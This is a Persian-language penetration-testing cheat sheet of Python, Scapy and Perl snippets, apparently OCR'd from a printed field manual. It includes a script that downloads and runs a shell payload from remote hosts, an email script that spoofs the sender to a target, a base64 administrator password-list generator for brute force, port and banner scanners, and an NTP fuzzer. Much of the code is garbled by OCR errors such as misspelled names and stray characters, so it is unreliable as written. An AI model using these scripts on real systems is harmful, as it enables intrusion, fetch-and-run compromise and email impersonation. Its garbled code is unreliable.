

# برنامه نویسی

### اسکنر پورت در python

```text
import socket as sk
for port in range (1, 1024):
    try:
        s=sk. socket ( sk .AF _ INET, sk. SOCK_ STREAM)
        s.settimeout(1000)
        s. connect ( (' 127. 0. 0. 1 ' , port) )
        print '%d:OPEN' % (port)
        s.close
    except: continue    
```

### ایجاد کلمه های base64 شده در پایتون

```text
#!/usr/bin/pjthon
import base64
filel=open("pwd.lst","r")
file2=open("b64pwds.lst","w")
for line in file1:
    clear= "administrator:"+ str.strip(line)
    new= base64.encodestring(clear)
    file2.write(new)
```

### تبدیل رجیستری ویندوز از hex به ascii در پایتون

```text
import binascii, sys, string
dataFormatHex = binascii.a2b_hex(sys.argv[1])
output = ""
for char in dataFormatEex:
    if char in string.printable: output += char
    else: output += "."
print ''\n'' + output
```

### خواندن تمامی فایل های فولدر و جست و جو با regex در پایتون

```text
import glob, re
for msg in glob.glob('/tmp/.txt'):
    filer = open ((msg), 'r')
    data = fi1er.read()
    message= re.findall(r' message (.'?) /message ', data, re.DOTALL)
    print "File %s contains %s" % (str(msg) ,message)
    fi1er.c1ose()
```

### ساخت وبسرور رمز شده با ssl در پایتون

```text
# Create SSL cert (follow prompts for customization)
  openssl req -new -x509 -keyout cert.pem -out cert.pern -days 365 -nodes

#Create httpserver.pj
  import BaseHTTPServer,SimpleHTTPServer,ssl

cert ="cert.pem"
httpd = BaseHTTPServer.HTTPServer( ('192.168.1.10' ,443),
Simp1eHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap socket(httpd.socket,certflle=cert,server side=True)
httpd.serve_forever()
```

### وبسرور با پایتون

```text
python -m SimpleHTTPServer 8080
```

### ارسال ایمیل در python \(\* باید sendmail نصب باشد\)

```text
#!/usr/bin/python
import smtplib, string
import os, time

os.system("/etc/init.d/sendmail start")
time.sleep(4)

    HOST = "localhost"
    SUBJECT = "Email from spoofed sender"
    TO = "target@you.com"
    FROM= "spoof@spoof.com"
    TEXT = "Message Body"
    BODY = string.join( (
            "From: %s" % FROH,
            "To: %s" % TO,
            "Subject: %s" % SUBJECT ,
            "",
            TEXT
            ) , "\r\n")
server = smtplib.SMTP(HOST)
server.sendmail(FROM, [TO], BODY)
server. quit ()
time.sleep(4)
os.system("/etc/init.d/sendmail stop")
```

### دریافت فایل از http و اجرای آن

```text
#!/usr/bin/python
import urllib2, os

urls = [ "1 1.1.1.1","2.2.2.2"]
port = "80"
payload = "cb.sh"

for url in urls:
    u = "http://%s:%s/%s" % (url, port, payload)
    try:
        r = urllib2.urlopen(u)
        wfile = open{"/tmp/cb.sh", "wb")
        wfile.write(r.read())
        wfile. close ()
        break
    except: continue

if os.path.exists("/tmp/cb.sh"):
    os.system("chmod 700 /tmp/cb.sh")
    os. system ( "/tmp/cb. sh")
```

### دریافت بنر در python \(\* باید محدوده ip و پورت ها و میزان تاخییر آن مشخص شود\)

```text
#!/usr/bin/python
import urllib2, sys, time

from optparse import OptionParser

parser= OptionParser()
parser.add option{''-t'', dest=''iprange'',help=''target IP range, i.e.
192.168.1.1-25")
parser.add option(''-p'', dest=''port'',default=''80'',help=''port, default=BO'')
parser.add=option("-d", dest="delay",default=".5",help="delay (in seconds),
default=.5 seconds")

(opts, args) = parser.parse_args()

if opts.iprange is None:
    parser.error("you must supply an IP range")

ips = []
headers={}

octets= opts.iprange.split(' .')

start= octets[3] .split('-') [0]
stop = octets [ 3] . split ( '-' ) [ 1]

for i in range(int(start),int(stop)+1):
    ips.append('%s.%s.%s.%d' % (octets[O],octets[1] ,octets[2],i))
print '\nScanning IPs: %s\n' % (ips)

for ip in ips:
    try:
        response= urllib2.urlopen('http://%s:%s' % (ip,opts.port))
        headers[ip] = dict(response.info())
    except Exception as e:
        headers[ip] = "Error: " + str(e)
        
time.sleep(float(opts.delay))

for header in headers:
    try:
        print '%s : %s' % (header,headers[header] .get('server'))
    except:
        print '%s : %s' % (header,headers[header])
```

## دستور Scrapy

When you craft TCP packets with Scapy, the underlying OS will not recognize the initial SYN packet and will reply with a RST packet. To mitigate this you need to set the following Iptables rule: iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP 

| **عبارت** | **توضیح** |
| :--- | :--- |
| from scapy.all import \* | بارگذاری تمامی کتابخانه های scapy |
| ls \(\) | لیست تمام پروتکل ها |
| lsc \(\) |لیست تمام توابع |
| conf | نمایش و تنظیمات |
| IP\(src=RandiP\(\)\) | ایجاد IP مقصد تصادفی |
| Ether\(src=RandMAC\(\) I | ایجاد MAC مقصد تصادفی |
| ip=IP\(src="1.1.1.1",dst="2.2.2.2"\) | تغییر پارامتر ip |
| tcp=TCP\(dport="443"\) | تغییر پارامتر tcp |
| data= "TCP data" | مشخص نمودن قسمت داده ها |
| packet=ip/tcp/data | ایجاد ip و بسته tcp |
| packet.show\(\) | نمایش تنظیمات بسته |
| send\(packet,count=1\) | ارسال 1 بسته به لایه 3  |
| sendp\(packet,count=2\) | ارسال 2 بسته به لایه 3 |
| sendpfast\(packet\) | ارسال سریع تر با tcpreply |
| sr\(packet\) | ارسال 1 بسته و دریافت نتیجه  |
| sr1\(packet\) | ارسال فقط یک پاسخ |
| for i in range\(0,1000\): send \(packet·\) | ارسال هزار دفعه یک سته |
| sniff\(count=100,iface=eth0\) | شنود صد بسته در eth0 |

### ارسال پیام icmp در ipv6

```text
sr ( IPv6 ( src=" ipv6 ", dst="ipv6")/ ICMP ())
```

### بسته udp و پیلود 

```text
ip=IP(src="ip", dst="ip")
u=UDP(dport=1234, sport=5678)
pay = "my UDP packet"
packet=ip/u/pay
packet.show( )
wrpcap ("out.pcap",packet) :write to pcap
send(packet)
```

### عملیات Ntp fuzzer

```text
packet=IP(src="ip" ,dst=" ip ")/UDP(dport=l23)/fuzz(NTP(version=4,mode=4))
```

### ارسال پیام http

```text
from scapy.all import *
# Add iptables rule to block attack box from sending RSTs
# Create web.txt with entire GET/POST packet data
fileweb = open("web.txt",'r')
data = fileweb.read()
ip = IP(dst="ip")
SYN=ip/TCP(rport=RandNum(6000,7000),dport=BO,flags="S",seq=4)
SYNACK = sr1(SYN)
ACK=ip/TCP(sport=SYNACK.dport,dport=BO,flags="A",seq=SYNACK.ack,ack=SYNACK.
seq+l)/data
reply,error = sr(ACK)
print reply.show()
```

## زبان Perl

### اسکنر پورت

```text
use strict; use IO::Socket;
for($port=0;$port 65535;$port++) {
$remote=IO::Socket::INET- new(
Proto= "tcp",PeerAddr= "127.0.0.1",PeerPort= $port);
if($remote) {print "$port is open\n"); )
```

## قوانین regex

| **قانون** | **توضیح** |
| :--- | :--- |
| ^ | شروع |
| \* | صفر یا بیشتر |
| + | یک یا بیشتر |
| ? | صفر یا یک |
| . | تمامی کاراکتر ها تا \n |
| {3} | دقیقا سه |
| {3,} | سه یا بیشتر |
| {3,5} | سه یا چهار یا پنج |
| {3\|5} | سه یا پنج |
| \[345\] |  سه یا چهار یا پنج |
| \[ ^34\] | به غیر از سه یا چهار |
| \[a-z\] | حروف a-z |
| \[A-Z\] | حروف A-Z |
| \[0-9\] | ارقام 0-9 |
| \d | رقم ها |
| \D | به غیر از رقم |
| \w | همه ی A-Z,a-z,0-9 |
| \W | به غیر از  A-Z,a-z,0-9 |
| \s | فضای خالی \(\t\r\n\f\) |
| \S | به غیر از \(\t\r\n\f\) |
| reg\[ex\] | "rege" یا "regx" |
| regex? | ''rege'' یا ''regex'' |
| regex\* | ''rege'' w/ 0 یا بیشتر x |
| regex+ | ''rege'' w/ 1 یا بیشتر x |
| \[Rr\]egex | ''Regex'' یا ''regex'' |
| \d{3} | دقیقا سه رقم |
| \d{ 3,\) | سه یا رقم های بیشتر |
| \[aeiou\] | هر یک |
| \(0 \[3-9\] \|1 \[0-9\]\|2 \[0-5\]\) | محدوده 03 تا 25 |

## جدول Ascii


